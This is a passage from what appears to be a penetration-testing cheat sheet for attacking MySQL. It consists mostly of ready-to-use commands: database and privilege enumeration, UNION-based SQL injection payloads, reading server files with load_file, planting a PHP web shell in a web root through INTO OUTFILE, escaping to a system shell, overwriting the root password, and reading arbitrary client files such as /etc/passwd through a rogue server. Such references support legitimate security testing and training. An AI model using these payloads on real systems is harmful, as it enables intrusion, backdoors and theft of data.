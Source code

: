 ```bash
CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY)
CONVERT(from_base64("aG9sYWFhCg=="), BINARY)
```

## **MySQL commands**

```bash
show databases;
use <database>;
show tables;
describe <table_name>;
show columns from <table>;

select grantee, table_schema, privilege_type FROM schema_privileges; #Exact privileges
select user,file_priv from mysql.user where user='root'; #File privileges
select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

## MySQL arbitrary read file by client

Actually, when you try to **load data local into a table** the **content of a file** the MySQL or MariaDB server asks the **client to read it** and send the content. **Then, if you can tamper a mysql client to connect to your own MyQSL server, you can read arbitrary files.**\
Please notice that this is the behaviour using:

```bash
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```
